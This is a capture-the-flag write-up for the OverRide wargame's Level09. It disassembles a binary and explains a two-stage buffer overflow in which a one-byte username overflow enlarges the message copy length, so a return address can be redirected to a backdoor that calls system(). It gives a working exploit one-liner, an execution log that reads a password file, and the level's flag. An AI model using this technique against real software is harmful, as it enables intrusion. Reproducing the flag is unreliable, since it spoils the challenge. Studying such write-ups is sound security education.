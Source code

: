 # **Level09**

## **Binary Analysis**

When run, it displays a welcome message and then handles user input through the handle_msg() function.
The program uses a structure to store a username (up to 40 characters) and a message (up to 140 characters). It first prompts the user to enter a username with the set_username() function, and then asks for a message via the set_msg() function.
There's also an unused secret_backdoor() function that could read a command from the user and execute it, but this function is never called in the normal program flow.

**main function:**
```bash
0x0000000000000aa8 <+0>:  push   %rbp
0x0000000000000aac <+4>:  lea    0x15d(%rip),%rdi      # 0xc10
0x0000000000000ab3 <+11>: callq  0x730 <puts@plt>
0x0000000000000ab8 <+16>: callq  0x8c0 <handle_msg>
```
Main simply displays a message and calls handle_msg.

**handle_msg key parts:**
```bash
# handle_msg function - structure layout
0x00000000000008d2 <+18>: add    $0x8c,%rax         # 0x8c (140) is offset to username field
0x00000000000008ff <+63>: movl   $0x8c,-0xc(%rbp)   # Setting len field to 0x8c (140)
0x0000000000000910 <+80>: callq  0x9cd <set_username>
0x000000000000091f <+95>: callq  0x932 <set_msg>

# set_username - accessing username field
0x0000000000000a5f <+146>: mov %cl,0x8c(%rdx,%rax,1) # Writing to username at offset 0x8c (140)

# set_msg - accessing len field 
0x00000000000009a9 <+119>: mov 0xb4(%rax),%eax      # Reading len field at offset 0xb4 (180)
                                                     # 180-140=40, so len is 40 bytes after username
```
**set_username key part:**
```bash
0x0000000000000a5f <+146>: mov  %cl,0x8c(%rdx,%rax,1) # Writes to username starting at offset 140
0x0000000000000a6a <+157>: cmpl $0x28,-0x4(%rbp)      # Checks if i > 40 (0x28)
```
This shows username is written to offset 140 and loop continues until i > 40.

**set_msg key part:**
```bash
0x00000000000009a9 <+119>: mov  0xb4(%rax),%eax       # Loads len field (at offset 180 = 0xb4)
0x00000000000009c6 <+148>: callq 0x720 <strncpy@plt>   # Copies input using the length
```
Uses the len value at offset 0xb4 (180) to control strncpy.

**secret_backdoor function:**
```bash
0x00000000000008ad <+33>: callq 0x770 <fgets@plt>
0x00000000000008b9 <+45>: callq 0x740 <system@plt>
```

## **Vulnerability**

**Two-Stage Buffer Overflow**

The Vulnerabilities in this Program:
Buffer Overflow:
    The program is vulnerable to buffer overflow because it allows writing more data than the allocated space in the buffers (e.g., msg[140] and username[40]). If the user inputs more data than the buffer can hold, it will overwrite adjacent memory, potentially leading to crashes or security vulnerabilities.

Command Injection:
    The program uses system() to execute arbitrary commands input by the user. This introduces a command injection vulnerability, where an attacker can trick the program into executing unauthorized commands, potentially leading to a compromise of the system.

## **Exploit**

**Exploit Structure**

```python
# Stage 1: Username overflow
"A" * 40       # Fill username buffer
"\xff"         # Overwrite length byte to maximum
"\n"           # Username input terminator

# Stage 2: Message overflow
"B" * 200      # Padding to reach return address
"\x8c\x48\x55\x55\x55\x55\x00\x00"  # secret_backdoor address
```

**Final Exploit**

```bash
(python -c 'print "A"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
```

**Exploit Execution**

```bash
level09@OverRide:~$ (python -c 'print "A"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

**How It Works**

1. **First Stage (Username)**:
    - Fill username buffer with 40 'A's
    - Overflow one byte with \xff to modify message length
    - This allows writing beyond normal message bounds
2. **Second Stage (Message)**:
    - 200 bytes of 'B's as padding
    - Place secret_backdoor address (0x55555555488c)
    - When function returns, it jumps to secret_backdoor
3. **Command Execution**:
    - secret_backdoor function executes
    - We can input shell commands
    - Read the flag file

## **Flag**

```
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
